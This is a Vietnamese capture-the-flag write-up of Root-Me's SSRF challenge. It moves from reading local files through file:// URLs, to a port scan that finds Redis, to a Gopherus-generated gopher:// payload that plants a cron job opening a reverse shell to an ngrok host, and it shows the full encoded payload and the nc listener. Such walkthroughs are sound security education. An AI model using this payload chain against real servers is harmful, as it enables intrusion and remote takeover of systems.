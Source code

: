 # SSRF

**Tên challenge:** Server Side Request Forgery

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery)

**Tác giả challenge:** sambecks

**Mục tiêu challenge:** Your goal is simple: compromise the virtual environment "SSRF Box".

The validation password of challenge (Realist) is in the `/root` directory.

Validation flag is stored in the file `/passwd`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng là CURL như sau:

![alt text](./images/image.png)

Vì ta đã biết lỗ hổng là SSRF nên ta sẽ thử payload cơ bản như `file:///etc/passwd` để xem sao

**B2:** Ta thử nhập payload `file:///etc/passwd`

![alt text](./images/image-1.png)

=> Trang Web đã thực sự đọc được file nội bộ `/etc/passwd`

**B3:** Ta tiếp tục thử input 2 payload `file:///passwd` và `file:///root/passwd` để xem liệu ta có thể lấy được `Flag` thì cả hai đều trả về kết quả:

```
Erreur Curl : Couldn't open file
```

=> Lỗi trên, có thể là do ta không đủ quyền hạn để mở file đó hoặc file đó không tồn tại nhưng khả năng đầu tiên sẽ hợp lý hơn.

Ngoài ra, ta cũng chẳng thể chèn thêm bất kỳ câu lệnh `Command` nào khác.

**Thông tin thêm:** Nếu như bạn đi tìm hiểu thì lỗ hổng SSRF có thể đạt được RCE.

* **Cụ thể:** Nếu như trong Server nội bộ của mục tiêu mở những port khác ngoài port cho Website như 80 hoặc 443, thì ta có thể xem xét đến hướng đi này. Nếu may mắn thì những Service mà Server Internal mở port có thể sẽ tồn tại những lỗ hổng dẫn đến RCE, và đây chính là mục tiêu mà ta sẽ hướng tới.

**B4:** Ta thử Brute-force Port đang mở trên Server nội bộ `127.0.0.1:port` và ta sẽ thử port từ `[1 -> 65535]`

![alt text](./images/image-2.png)

Ta thử cho đến khi đúng port `6379` thì trang Web bắt đầu load chậm hơn bình thường rất nhiều.

=> Server nội bộ đang mở port `6379`.

**Câu hỏi:** Vậy tiếp theo ta phải làm sao để khai thác lỗ hổng ở trên port `6379` này ?
* **Trả lời:** Khá may mắn là Server nội bộ đang mở port `6379`, đây là port của Redis mà nếu port này đang mở thì ta có thể ghi đè lên file system, tạo 1 file để RCE hoặc tạo Reverse Shell.

Ta có thể dùng tool [Gopherus](https://github.com/tarunkant/Gopherus) để giúp ta tạo payload từ đó gửi lên Web và đạt được RCE.

Cách dùng tool khá đơn giản nhưng trước tiên ta phải dùng lệnh `ngrok tcp 1234` để mở 1 IP public có nhiệm vụ tiếp nhận gói tin bên ngoài và chuyển tiếp vào trong port `1234` của máy ta, trong trường hợp bạn không có IP public.

Sau khi dùng tool thì ngrok sẽ cung cấp cho ta 1 địa chỉ có dạng như `tcp://0.tcp.ap.ngrok.io:port`, ta sẽ điền `0.tcp.ap.ngrok.io` khi tool `gopherus` yêu cầu ta cấp IP.
```
$> python2 gopherus.py --exploit redis

                                                                                                                                                                                               
  ________              .__                                                                                                                                                                    
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                                                                                                                     
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                                                                                                                     
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                                                                                                                      
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                                                                                                                     
        \/       |__|        \/     \/                 \/                                                                                                                                      
                                                                                                                                                                                               
                author: $_SpyD3r_$                                                                                                                                                             
                                                                                                                                                                                               

Ready To get SHELL

What do you want?? (ReverseShell/PHPShell): Reverseshell

Give your IP Address to connect with victim through Revershell (default is 127.0.0.1): 0.tcp.ap.ngrok.io                                                            
What can be his Crontab Directory location
## For debugging(locally) you can use /var/lib/redis :                                                                                                                                         

Your gopher link is ready to get Reverse Shell:                                                                                                                                                
                                                                                                                                                                                               
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2464%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/0.tcp.ap.ngrok.io/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A

Before sending request plz do `nc -lvp 1234`
```

Kế tiếp, ta copy payload rồi chỉnh sửa lại payload ở chỗ `1234` thành `port` của `ngrok` là `15859`. Vì tool `Gopherus` sẽ luôn tạo payload mặc định là `1234`, nếu như bạn có sẵn IP public trong Card mạng thì bạn không cần sửa lại. Nếu bạn dùng `ngrok` để mở 1 IP public thì bạn bắt buộc phải sửa lại, để khi gói tin đi đến địa chỉ IP public ngrok của ta thì nó sẽ chuyển tiếp vào port `1234` đang mở trong máy của mình.

Tiếp đến, ta sẽ lắng nghe ở port `1234` trong máy mình thông qua lệnh `nc -lnvp 1234`, rồi sau đó gửi payload đã chỉnh sửa lên Webserver.

Đợi 1 lúc thì ta sẽ thấy ta đã kết nối được với Shell

Tiếp theo, bạn chỉ cần đọc dùng lệnh `cat /passwd` thôi là được.